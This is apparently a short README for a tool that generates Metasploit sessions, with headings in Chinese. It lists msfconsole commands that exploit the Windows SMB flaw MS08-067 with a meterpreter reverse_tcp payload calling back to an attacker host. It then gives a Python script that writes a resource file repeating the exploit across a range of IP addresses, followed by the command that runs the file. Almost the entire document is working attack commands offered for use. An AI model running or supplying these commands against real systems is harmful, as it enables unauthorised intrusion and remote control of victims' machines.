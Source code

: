 # msconsole-session生成器

```
use exploit/windows/smb/ms08_067_netapi
set payload windows/meterpreter/reverse_tcp
set RHOST 172.16.1.132
set target 34
set LHOST 172.16.1.129
exploit -j
```

### 以上是攻击08_067的步骤

### 写入生成脚本的python

```
f=open("1.sh","w")
for  i in range(135,149):
    f.write(
"""use exploit/windows/smb/ms08_067_netapi
set payload windows/meterpreter/reverse_tcp
set RHOST 172.16.1.%s
set target 34
set LHOST 172.16.1.129
exploit -j
sleep 2
"""%i)
f.close()
```

```
python3 生成 1.sh
```

### 使用msfconsole读取1.sh

```
msfconsole -r 1.sh
```


